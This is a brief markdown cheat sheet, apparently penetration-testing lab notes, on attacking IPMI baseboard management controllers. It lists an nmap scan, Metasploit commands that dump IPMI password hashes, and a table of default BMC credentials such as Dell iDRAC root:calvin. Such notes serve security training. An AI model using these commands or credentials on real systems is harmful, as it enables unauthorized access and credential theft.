 ## IPMI

```bash
nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts $TARGET
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts $TARGET
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

Default passwords :

| Product    | Username : Password                 |
| ---------- | ----------------------------------- |
| Dell iDRAC | root:calvin                         |
| HP iLO     | administrator (randomized password) |
